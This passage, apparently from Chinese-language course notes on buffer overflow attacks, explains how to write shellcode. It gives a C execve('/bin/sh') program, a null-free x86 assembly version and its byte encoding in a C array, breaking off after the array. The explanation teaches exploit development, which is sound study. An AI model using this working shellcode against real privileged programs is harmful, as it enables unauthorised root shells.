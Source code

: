 ### 2.6 恶意代码：Shellcode

在前面的讨论中，我们假设恶意代码已经是可用的。这个章节中，我们会讨论如何编写这种恶意代码。

如果我们可以让特权程序执行我们的代码，我们想要它执行什么代码呢？最强大的代码就是调用 Shell，所以我们可以在其中执行任何我们想要执行的代码。目标为加载 Shell 的程序就叫做 Shellcode。为了了解如何编写 Shellcode，让我们来看看下面的 C 程序：

```c
#include <stdio.h>
int main( ) { 
    char *name[2];
    name[0] = "/bin/sh"; 
    name[1] = NULL; 
    execve(name[0], name, NULL);
} 
```

在我们将上面的程序编译为二进制代码之后，我们可以在缓冲区溢出工集中，直接使用二进制代码作为 Shellcode 嘛？事情并不是那么容易。如果我们直接使用上面的代码，就会有几个问题：

*   首先，为了调用系统调用`execve`，我们需要知道`/bin/sh`的地址。字符串保存在哪里，以及如何获取字符串位置，并不是复杂的问题。

*   其次，代码中有一些空字符。这会使`strcpy`停止，如果漏洞由`strcpy`导致，我们就会有问题。

为了解决第一个问题，我们可以将字符串`/bin/sh`压入栈中，之后使用栈指针`esp`获取字符串位置。为了解决第二个问题，我们可以将包含 0 的指令转换为另一条不包含 0 的指令，例如，为了将 0 储存到寄存器中，我们可以使用 XOR 指令，而不是直接将寄存器赋为 0。下面是个用汇编语言编写的 Shellcode 的例子：

```c
Line 1: xorl %eax,%eax 
Line 2: pushl %eax        # push 0 into stack (end of string) 
Line 3: pushl $0x68732f2f # push "//sh" into stack 
Line 4: pushl $0x6e69622f # push "/bin" into stack 
Line 5: movl %esp,%ebx    # %ebx = name[0] 
Line 6: pushl %eax        # name[1] 
Line 7: pushl %ebx        # name[0] 
Line 8: movl %esp,%ecx    # %ecx = name 
Line 9: cdq               # %edx = 0 
Line 10: movb $0x0b,%al 
Line 11: int $0x80        # invoke execve(name[0], name, 0) 
```

Shellcode 中的一些地方需要注意：

*   首先，第三条指令将`/sh`压入到栈中。这是因为我们需要一个 32 位数值，`/sh`只有 24 位，幸运的是，`//`等价于`/`，所以我们可以使用两个斜杠字符。

*   其次，在调用`execve`系统调用之前，我们需要将`name[0]`（字符串地址），`name`（数组地址），以及`NULL`储存到`%ebx`、`%ecx`以及`%edx`寄存器。

    *   第五行将`name[0]`储存到`%ebx。
    *   第八行将`name`储存到`%ecx`。
    *   第九行将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
*   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：

```c
#include <stdlib.h> 
#include <stdio.h>

const char code[] = 
    "\x31\xc0" /* Line 1: xorl %eax,%eax */ 
    "\x50" /* Line 2: pushl %eax */ 
    "\x68""//sh" /* Line 3: pushl $0x68732f2f */ 
    "\x68""/bin" /* Line 4: pushl $0x6e69622f */ 
    "\x89\xe3" /* Line 5: movl %esp,%ebx */ 
    "\x50" /* Line 6: pushl %eax */ 
    "\x53" /* Line 7: pushl %ebx */ 
    "\x89\xe1" /* Line 8: movl %esp,%ecx */ 
    "\x99" /* Line 9: cdq */ 
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */ 
    "\xcd\x80" /* Line 11: int $0x80 */ ;
```
